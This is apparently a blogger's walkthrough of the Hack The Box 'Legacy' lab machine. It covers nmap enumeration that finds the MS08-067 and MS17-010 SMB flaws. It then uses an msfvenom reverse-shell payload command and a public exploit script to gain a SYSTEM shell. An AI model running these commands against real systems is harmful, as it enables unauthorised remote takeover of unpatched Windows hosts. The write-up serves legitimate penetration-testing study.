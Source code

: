 Title: HTB Legacy box writeup
Tags: oscp, htb
Summary: Quite short walkthrough for this little box
Date: 31/08/2020 15:30
Status: published

Starting series of writeups for a list of machines compiled by TJNull in his well-known 
[blog post](https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html#vulnerable-machines).

# Enumeration
Let's dig into this box. We are not restricted with traffic amount or something like that, so I just spinned up the full nmap scan with `-sS`:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:28:33 2020 as: nmap -sS -p- -oA nmap/nmap-ss-all 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).
    Not shown: 65532 filtered ports
    PORT     STATE  SERVICE
    139/tcp  open   netbios-ssn
    445/tcp  open   microsoft-ds
    3389/tcp closed ms-wbt-server

    # Nmap done at Wed Aug 26 12:31:39 2020 -- 1 IP address (1 host up) scanned in 186.30 seconds

</pre>
Unfortunately, SMB server does not allow anonymous logon since `smbclient -N -L \\\\10.10.10.4\\` fails.

Not much ports open there, seems to be only SMB server available at the time. Let's try to dig some more with `-A` and `-sV` on discovered ports:

<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:35:32 2020 as: nmap -A -T4 -sV -O -p139,445 -oA nmap/nmap-AT4sVO-open 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.18s latency).

    PORT    STATE SERVICE      VERSION
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows XP microsoft-ds
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
    OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003
    Aggressive OS guesses: Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (90%), Microsoft Windows XP SP2 or Windows Small Business Server 2003 (90%), 
    Microsoft Windows XP SP2 (89%), Microsoft Windows Server 2003 (87%), Microsoft Windows XP SP2 or SP3 (87%), Microsoft Windows XP SP3 (87%), 
    Microsoft Windows 2000 SP4 (86%), Microsoft Windows XP Professional SP2 (86%), Microsoft Windows XP Professional SP3 (86%), 
    Microsoft Windows XP SP2 or Windows Server 2003 (86%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

    Host script results:
    |_clock-skew: mean: -4h27m15s, deviation: 2h07m16s, median: -5h57m15s
    |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:3d:03 (VMware)
    | smb-os-discovery: 
    |   OS: Windows XP (Windows 2000 LAN Manager)
    |   OS CPE: cpe:/o:microsoft:windows_xp::-
    |   Computer name: legacy
    |   NetBIOS computer name: LEGACY\x00
    |   Workgroup: HTB\x00
    |_  System time: 2020-08-26T12:38:29+03:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_smb2-time: Protocol negotiation failed (SMB2)

    TRACEROUTE (using port 139/tcp)
    HOP RTT       ADDRESS
    1   120.17 ms 10.10.14.1
    2   290.33 ms legacy.htb (10.10.10.4)

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Aug 26 12:36:36 2020 -- 1 IP address (1 host up) scanned in 63.88 seconds

</pre>
Well it's really seems to be _legacy_ since nmap suggests that this box running Windows XP. Though these results may not be accurate, `smb-os-discovery` also
suggests so, I'll take a mental note about this - it might be vulnerable to some antediluvian vulnerabilities.  
Nmap has some more interesting scripts for SMB, worth trying to scan using them:
<pre>

    # Nmap 7.80 scan initiated Wed Aug 26 12:49:00 2020 as: nmap -p445,139 --script=smb-vuln* -oA nmap/smb-vuln-mass 10.10.10.4
    Nmap scan report for legacy.htb (10.10.10.4)
    Host is up (0.12s latency).

    PORT    STATE SERVICE
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds

    Host script results:
    | smb-vuln-ms08-067: 
    |   VULNERABLE:
    |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
    |     State: LIKELY VULNERABLE
    |     IDs:  CVE:CVE-2008-4250
    |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
    |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
    |           code via a crafted RPC request that triggers the overflow during path canonicalization.
    |           
    |     Disclosure date: 2008-10-23
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
    |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    # Nmap done at Wed Aug 26 12:49:07 2020 -- 1 IP address (1 host up) scanned in 7.25 seconds

</pre>
Gotcha! Notice that it's 'likely vulnerable' to CVE-2008-4250 (MS08-067). Pretty old vulnerability, this looks consonant
with box name. 

# Exploitation
There is some exploit code for MS08-67 in [github](https://github.com/andyacer/ms08_067.git). Looks neat, without pranks or `rm -rf` stuff within.
I've just generated payload with `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 EXITFUNC=thread -f c -o shell.c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`
and put that shellcode instead of the one that was in the script already. Initially I forgot to set badchars and it was not working for that reason, but
eventually I read the exploit script and notices some examples. Lesson learned - do not hurry! I must have thought that this exploit is broken or something
if I didn't read carefully.  
Exploit script had multiple choices for targets, I decided to start from end and used `./ms08_067_2018.py 10.10.10.4 7 445` - bullseye! Shell popped out on my 
`multi/handler` running.

# Post-exploitation
As per `systeminfo` this box is indeed running Windows XP SP3. Unfortunately it doesn't have `whoami` in the command line shell and `echo %USERNAME%` didn't work
for some reason (emitted nothing). So I had to determine current user by indirect methods. First, I suggest that since SMB server service got exploited, it's likely
a SYSTEM shell. Two little commands to prove that hypothesis. Who wants to go directly for the root flag? That's boring :)  
First command is `set`, which will show us some current envars:

![set output](/cstatic/htb-legacy/set.png)

Take a look at `USERPROFILE` envar - it shows us a special folder.

Second command is `reg query "HKU\S-1-5-19"` which tries to query some keys that only administrator could get.

![reg query output](/cstatic/htb-legacy/hku.png)

We indeed having at least administrative rights on this box. Safe to go ahead and grab root flag:

![root flag](/cstatic/htb-legacy/flag.png)
